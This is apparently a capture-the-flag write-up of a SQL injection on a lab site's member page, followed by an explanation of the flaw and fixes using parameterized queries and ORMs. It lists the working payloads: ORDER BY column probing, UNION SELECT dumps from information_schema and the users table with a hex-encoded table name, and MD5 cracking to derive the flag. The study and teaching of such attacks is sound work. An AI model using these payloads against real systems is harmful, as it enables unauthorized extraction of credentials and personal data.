


# Proof of Concept

In the `http://X.X.X.X/?page=member` , we decide to test a simple SQL synthax like "ORDER BY 1-- " and we get an error like this error : 

**You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'ORDER BY 1-- -' at line 1**

So we decide to exploit this breach: 

**1-Find the number of id**

In this section we discovered that the field is numeric. So we have used the SQL request like this:

***{id} ORDER BY {id}-- -***

After that, we discovered that there's **2id**.

**2-List the tables in the current database**

We used this SQL request:

***1 UNION SELECT GROUP_CONCAT(column_name),2 FROM information_schema.columns WHERE table_name=0x7573657273-- -***

0x7573657273: means "users" in hexadecimal because the backend code does not support the apostrophe

After this we can see all the column_name:

**3-Column content analyse**

We use this new request to see all column content:

***1 UNION SELECT GROUP_CONCAT({column_name}),2 FROM users--***

In the **Commentaire** column we find this **Je pense, donc je suis,Aamu on iltaa viisaampi.,Dublin is a city of stories and secrets.,Decrypt this password -> then lower all the char. Sh256 on it and it's good**

After that we used the following requets to see all column relationship:

***1 AND 1=1 UNION SELECT {Column_name}, {column_name} FROM users***

And between the "Commentaire" and "countersign" column we found this : 

In the last "countersign content" we find that this encryption ***5ff9d0165b4f92b14994e5c685cdce28*** match with the sentence ***Decrypt this password -> then lower all the char. Sh256 on it and it's good*** in the "Commentaire content"

**4-Flag extraction**

We notice that ***5ff9d0165b4f92b14994e5c685cdce28*** is encrypted in ***MD5***, after the decryption we found ***FortyTwo***.

And finally we encrypt ***fortytwo*** in sh256. And get ***10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5***

# Explanation

The server directly incorporates user-supplied data into a database query without validating, filtering, or separating it from the command structure. So the database engine can then no longer distinguish between legitimate SQL code (the query structure) and raw data. User-supplied content is mistakenly interpreted as executable instructions.

And the input can be manipulated to traverse database tables and retrieve sensitive data like (password or some personal information).

# Solutions

## Use ORM (Object-Relational Mapping)

Modern tools like Prisma, Hibernate, or Doctrine generate and execute queries securely by encapsulating parameters.

## Use a Parameterized Queries with a typed input 

It involves sending the SQL query structure separately from the user data (in the form of parameters). The database always treats the input as a simple text value and will never execute any code contained within it.

Developper must also ensure that a field intended to receive a number does not contain text characters or special symbols, although this is no substitute for prepared statements.
